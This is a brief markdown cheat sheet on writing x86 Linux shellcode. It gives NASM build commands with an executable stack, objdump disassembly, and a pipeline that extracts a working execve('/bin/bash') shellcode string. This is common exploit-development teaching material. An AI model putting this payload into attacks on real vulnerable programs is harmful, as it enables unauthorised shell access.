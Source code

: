 # Shellcode

## Compile a NASM file 
### Commands
```
nasm -f elf32 -o file.o file.nasm
ld -z execstack -o file file.o
```
## Check if they are some null bytes in the shellcode
### Command:
```
objdump -d execve -M intel
```
### Output:
```
execve:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	eb 07                	jmp    8048089 <stage_1>

08048082 <stage_2>:
 8048082:	5b                   	pop    ebx
 8048083:	31 c0                	xor    eax,eax
 8048085:	b0 0b                	mov    al,0xb
 8048087:	cd 80                	int    0x80

08048089 <stage_1>:
 8048089:	e8 f4 ff ff ff       	call   8048082 <stage_2>

0804808e <shell>:
 804808e:	2f                   	das    
 804808f:	62 69 6e             	bound  ebp,QWORD PTR [ecx+0x6e]
 8048092:	2f                   	das    
 8048093:	62 61 73             	bound  esp,QWORD PTR [ecx+0x73]
 8048096:	68                   	.byte 0x68
```

## Get a shellcode format from the objdump output
### Command:
```
objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
### Output
```
"\xeb\x07\x5b\x31\xc0\xb0\x0b\xcd\x80\xe8\xf4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68"
```